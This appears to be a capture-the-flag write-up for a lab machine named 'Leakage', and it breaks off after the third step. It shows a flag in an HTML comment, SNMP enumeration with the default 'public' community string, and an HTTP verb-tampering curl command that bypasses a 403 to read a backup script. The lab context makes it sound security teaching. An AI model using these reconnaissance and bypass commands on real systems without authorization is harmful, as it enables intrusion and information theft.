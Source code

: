 Discovering the first flag was easy as checking the page source of [http://10.13.37.11](http://10.13.37.11) revealed the flag hidden in a comment.

> This is to demonstrate that even a forgotten comment can contain valuable information. Always keep an eye out on page sources for juicy infos like user-names, api routes or even passwords 

## Take a Look Around

During enumeration I encountered an open UDP Port on Port 161 (SNMP). Let's check if it will reveal any details about the environment

`snmpbulkwalk -c public -v2c 10.13.37.11 . >> snmp.log`

```bash
# Some infos about the system
iso.3.6.1.2.1.1.1.0 = STRING: "Linux Leakage 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64"
iso.3.6.1.2.1.1.3.0 = Timeticks: (44763477) 5 days, 4:20:34.77
iso.3.6.1.2.1.1.4.0 = STRING: "Me <me@example.org>"
iso.3.6.1.2.1.1.5.0 = STRING: "Leakage"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
# Files that could be useful and the next flag
iso.3.6.1.2.1.25.4.2.1.5.1222 = STRING: "/var/www/html/scripts/backup_every_17minutes.sh AKERVA{XXX}"
iso.3.6.1.2.1.25.4.2.1.5.1223 = STRING: "/var/www/html/dev/space_dev.py"
```

> A nice demonstration on why you should always control which data get exposed on publically available endpoints

## Dead Poets

Using snmp it's clear that there are two files located on the webserver which seem to be interesting for further anlysis. **space_dev.py**, **backup_every_17minutes.sh**

Using wget to get any of those to files will either result in **403 Forbidden** or **Wrong Username/Password** 

Let's try it using Verb Tampering

`curl -X POST http://10.13.37.11/scripts/backup_every_17minutes.sh`

```bash
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{XXX}
#

SAVE_DIR=/var/www/html/backups

while true
do
        ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
        echo "Erasing old backups..."
        rm -rf $SAVE_DIR/*

        echo "Backuping..."
        zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

        echo "Done..."
        sleep 1020
done
```
